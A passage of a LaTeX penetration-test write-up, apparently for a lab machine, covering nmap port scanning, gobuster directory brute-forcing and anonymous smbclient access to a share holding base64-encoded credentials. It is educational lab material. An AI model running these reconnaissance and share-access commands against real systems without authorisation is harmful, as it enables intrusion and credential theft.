%%	
\includegraphics[width=1.1\textwidth]{img/mdultra.png}
%% \end{center}
% \begin{center}
% 	
\includegraphics[width=1\textwidth]{img/midnight.png}
% \end{center}
% \begin{center}
% 	
\includegraphics[width=1\textwidth]{img/rdark.png}
% \end{center}
\underline{The flags used in nmap scan}:
\begin{itemize}
	\item -T4: a timing template with values from 0-5, higher is faster.
	\item -Pn: to skip host discovery as we know host is online
	\item -p-: to scan all 65535 Ports
	\item --min-rate: to set minimun no of packets that are sent.
\end{itemize}
\underline{Inference}:
\begin{itemize}
	\item Port 80: HTTP(Unsecure) website with Microsoft IIS
as backend server as the
it is displaying default webpage of IIS.
	\item Port 135,139,445: An smbserver is hosted. several nmap
scripts scan are used here. The scripts gave useful
information like OS version, NetBIOS name. Message signing is disabled
means only password is enough for authentication
which is bad as it is vulnerable to pass the hash attack.
	\item Port 49663: HTTP website with the same IIS backend server
on this non-standard port.
\end{itemize}
\section{Enumeration}
\subsection{HTTP Sites Enumeration}
Directory enumeration of the found HTTP ports 80 and 49663
with gobuster tool and the wordlists mentioned. I tried
with several wordlists given in the reference.\\
\underline{Gobuster command :}
\begin{lstlisting}[language=bash]
   $ gobuster -u http://10.10.212.187/ -w directory-list-2.3-medium.txt -x aspx,txt,html -t 100
\end{lstlisting}
\underline{The flags used in gobuster scan}:
\begin{itemize}
	\item -u: to specify the url to brute force directories
	\item -w: to specify the wordlist files
	\item -x: extensions to search for
	\item -t: no of concurrent tasks to do
\end{itemize}
\underline{Port 80 :}\\
No interseting directories on this port other than the default
directories.\\
\underline{Port 49663 :}\\
This has a directory named \emph{nt4wrksv}.
\begin{center}
	
\includegraphics[width=1.1\textwidth,height=1.4cm]{img/nt4.png}
\end{center}
\subsection{SMB Share Enumeration}
For this, I have used a tool called \textbf{smbclient} and
also did a vulnerability check by nmap.
I am able to list the files and access them without any authentication.
The smb server allows both read and write permissions for anyone
logging into the server.
Commands used:
\begin{lstlisting}[language=bash]
   $ nmap --script vuln -p 445 10.10.212.187
   $ smbclient -L \\\\10.10.212.187\\
   $ smbclient \\\\10.10.212.187\\nt4wrksv
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/smblist.png}
\end{center}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/smbpass.png}
\end{center}
I get a \emph{passwords.txt} file, which included two base64
encoded credentials. I decoded them back in the following way,
\begin{center}
	
\includegraphics[width=1\textwidth]{img/pass.png}
\end{center}
\begin{center}
